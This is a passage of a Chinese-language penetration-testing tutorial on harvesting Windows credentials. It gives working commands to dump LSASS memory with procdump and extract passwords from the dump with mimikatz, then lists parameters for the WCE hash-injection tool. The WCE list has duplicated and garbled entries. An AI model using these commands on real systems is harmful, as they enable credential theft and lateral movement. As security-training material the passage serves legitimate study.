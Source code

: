 执行下载lsass进程内存的命令

`procdump64.exe -accepteula -ma lsass.exe` 

执行完毕后，在当前目录下会生成一个`lsass.dmp`的文件，这个文件是我们需要的文件：

将这个文件放在mimikatz目录下，然后启动mimikatz.exe，
执行`sekurlsa::minidump lsass.exe_190310_001506.dmp`

执行读取密码的命令

`sekurlsa::tspkg`


## 2、WCE
### 简介

这款工具是一款Hash注入神器，不仅可以用于Hash注入，也可以直接获取明文或Hash。
这款工具也分为32位和64位两个不同的版本
```
参数解释:

-l 列出登录的会话和NTLM凭据（默认值）；

-s 修改当前登录会话的NTLM凭据 参数：<用户名>:<域名>:<LM哈希>:<NT哈希>；

-r 不定期的列出登录的会话和NTLM凭据，如果找到新的会话，那么每5秒重新列出一次；

-c 用一个特殊的NTML凭据运行一个新的会话 参数：<cmd>；

-e 不定期的列出登录的会话和NTLM凭据，当产生一个登录事件的时候重新列出一次；

-o 保存所有的输出到一个文件 参数:<文件名>；

-i 指定一个LUID代替使用当前登录会话 参数:<luid>。

-d 从登录会话中删除NTLM凭据 参数:<luid>；

-a 使用地址 参数: <地址>；

-f 强制使用安全模式

-g 生成LM和NT的哈希 参数<密码>

-f 强制使用安全模式；希 参数<密码>；（unix和windows wce格式）；；；

-k 从一个文件中读取kerberos票据并插入到windows缓存中

-k 从一个文件中读取kerberos票据并插入到windows缓存中；

-v 详细输出；
```

### 使用
